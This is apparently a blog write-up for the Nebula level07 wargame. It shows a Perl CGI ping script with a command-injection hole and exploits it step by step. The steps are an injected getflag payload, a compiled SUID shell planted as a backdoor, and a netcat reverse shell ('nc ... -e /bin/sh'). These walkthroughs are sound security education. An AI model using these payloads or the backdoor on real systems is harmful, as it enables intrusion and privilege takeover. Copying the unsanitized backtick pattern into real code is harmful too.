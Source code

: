 +++
author = "pwntester"
categories = ["nebula07"]
date = 2013-11-21T17:13:00Z
description = ""
draft = false
slug = "nebula-level07-write-up"
tags = ["nebula07"]
title = "Nebula level07 write-up"

+++

In [Level07](http://exploit-exercises.com/nebula/level07) we are given the source code of a **perl** script:

```lang-bash line-numbers 
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");

}

# check if Host set. if not, display normal page, etc

ping(param("Host"));

```

It looks like its vulnerable to **command injection** on line 12. Bit how and where is it deployed. Along with the script code we are given the following file:

```lang-bash line-numbers 
level07@nebula:/home/flag07$ cat thttpd.conf
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07

# Do a chroot() at initialization time, restricting file access to the program's
# current directory. If chroot is the compiled-in default (not the case on
# Debian), then nochroot disables it. See thttpd(8) for details.
nochroot
#chroot

# Specifies a directory to chdir() to after chrooting. If you're not chrooting,
# you might as well do a single chdir() with the dir option. If you are
# chrooting, this lets you put the web files in a subdirectory of the chroot
# tree, instead of in the top level mixed in with the chroot files.
#data_dir=

# Don't do explicit symbolic link checking. Normally, thttpd explicitly expands
# any symbolic links in filenames, to check that the resulting path stays within
# the original document tree. If you want to turn off this check and save some
# CPU time, you can use the nosymlinks option, however this is not
# recommended. Note, though, that if you are using the chroot option, the
# symlink checking is unnecessary and is turned off, so the safe way to save
# those CPU cycles is to use chroot.
#symlinks
#nosymlinks

# Do el-cheapo virtual hosting. If vhost is the compiled-in default (not the
# case on Debian), then novhost disables it. See thttpd(8) for details.
#vhost
#novhost

# Use a global passwd file. This means that every file in the entire document
# tree is protected by the single .htpasswd file at the top of the tree.
# Otherwise the semantics of the .htpasswd file are the same. If this option is
# set but there is no .htpasswd file in the top-level directory, then thttpd
# proceeds as if the option was not set - first looking for a local .htpasswd
# file, and if that doesn't exist either then serving the file without any
# password. If globalpasswd is the compiled-in default (not the case on Debian),
# then noglobalpasswd disables it.
#globalpasswd
#noglobalpasswd

# Specifies what user to switch to after initialization when started as root.
user=flag07

# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi

# Specifies a file of throttle settings. See thttpd(8) for details.
#throttles=/etc/thttpd/throttle.conf

# Specifies a hostname to bind to, for multihoming. The default is to bind to
# all hostnames supported on the local machine. See thttpd(8) for details.
#host=

# Specifies a file for logging. If no logfile option is specified, thttpd logs
# via syslog(). If logfile=/dev/null is specified, thttpd doesn't log at all.
#logfile=/var/log/thttpd.log

# Specifies a file to write the process-id to. If no file is specified, no
# process-id is written. You can use this file to send signals to thttpd. See
# thttpd(8) for details.
#pidfile=

# Specifies the character set to use with text MIME types.
#charset=iso-8859-1

# Specifies a P3P server privacy header to be returned with all responses. See
# http://www.w3.org/P3P/ for details. Thttpd doesn't do anything at all with the
# string except put it in the P3P: response header.
#p3p=

# Specifies the number of seconds to be used in a "Cache-Control: max-age"
# header to be returned with all responses. An equivalent "Expires" header is
# also generated. The default is no Cache-Control or Expires headers, which is
# just fine for most sites.
#max_age=
```

So it looks like the port **7007** has a http daemon serving **/home/flag07** and that the daemon is run as **flag07** user.... thats basically all we need.
If we connect to the server, we can ping any host like:

{% img /images/pinglocalhost.png 565 168 %}

Now all we need to do to get the flag is accessing **index.cgi?Host=localhost%3bgetflag**:

{% img /images/pinglocalhostgetflag.png 571 187 %}

Now, if we want to get a shell we can create a program like:

```lang-clike line-numbers 
#include <unistd.h>
#include <stdlib.h>

int main()
{
    int euid = geteuid();

    setresuid(euid, euid, euid);
    system("sh");
    return 0;
}
```

Compile it and move it to /tmp:

```lang-bash line-numbers 
level07@nebula:~$ gcc shell.c -o shell
level07@nebula:~$ cp shell /tmp/shell
```

Now make the **flag07** user to set the SUID flag on it by using the command injection to run the following commands:

```lang-bash line-numbers 
; cp /tmp/shell /home/flag07/shell; chmod +s /home/flag07/shell
```

Now inject the above command (Dont forget to URL encode it) and look for your backdoot at **/home/flag07**

```lang-bash line-numbers 
level07@nebula:/home/flag07$ ls -la
total 36
drwxr-x---  2 flag07 level07 4096 Nov 21 09:52 .
drwxr-xr-x 43 root   root    4096 Nov 20  2011 ..
-rw-r--r--  1 flag07 flag07   220 May 18  2011 .bash_logout
-rw-r--r--  1 flag07 flag07  3353 May 18  2011 .bashrc
-rw-r--r--  1 flag07 flag07   675 May 18  2011 .profile
-rwxr-xr-x  1 root   root     368 Nov 20  2011 index.cgi
-rwsr-sr-x  1 flag07 flag07  7241 Nov 21 09:52 shell
-rw-r--r--  1 root   root    3719 Nov 20  2011 thttpd.conf
level07@nebula:/home/flag07$ ./shell
sh-4.2$ id
uid=992(flag07) gid=1008(level07) egid=992(flag07) groups=992(flag07),1008(level07)
```

Other way to do it is using **netcat**. Just run a **nc** listening on any port for your **flag07** shell:

```lang-bash line-numbers 
level07@nebula:/home/flag07$ nc -nvlp 6666
listening on [any] 6666 ...
```

Now use the command injection to run connect to your listening **netcat** and send it the reverse shell:

```lang-bash line-numbers 
; nc localhost 6666 -e /bin/sh
```

```lang-bash line-numbers 
level07@nebula:/home/flag07$ nc -nvlp 6666
listening on [any] 6666 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 43686
id
uid=992(flag07) gid=992(flag07) groups=992(flag07)
```


